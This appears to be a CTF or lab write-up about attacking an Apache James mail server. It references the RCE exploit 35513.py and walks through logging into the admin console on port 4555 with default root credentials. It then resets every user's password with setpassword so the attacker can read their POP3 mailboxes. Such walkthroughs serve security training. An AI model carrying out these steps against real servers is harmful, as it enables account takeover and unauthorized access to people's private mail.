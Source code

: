 #### 35513 RCE
exploit 35513.py
#### Manual
```bash - kali
nc -nvC $TARGET 4555
```
[https://james.apache.org/server/archive/configuration_v2_0.html](https://james.apache.org/server/archive/configuration_v2_0.html)
```bash - kali
root
```
```bash - kali
root
```
```bash - kali
HELP
```
```bash - kali
listusers
```
We do not have the ability to view user credentials. However can do the next best thing: we can change them with the setpassword command. Once we do so, we should be able to log onto the POP3 server and see if there are any emails available. We'll go ahead and change all the user credentials and then log on one by one.
```bash - kali
setpassword marcus abcd
```
```bash - kali
setpassword john abcd
```
```bash - kali
setpassword mailadmin abcd
```
```bash - kali
setpassword jenny abcd
```
```bash - kali
setpassword ryuu abcd
```
```bash - kali
setpassword joe45 abcd
```
```bash - kali
quit
```
While we could login one-by-one with our newly controlled credentials, we might as well use a little bash in order to speed up the process.
![[Port 110 - POP3#POP3 sh]]
```
...
+OK Welcome ryuu
+OK 2 1807
1 786
2 1021
...
```
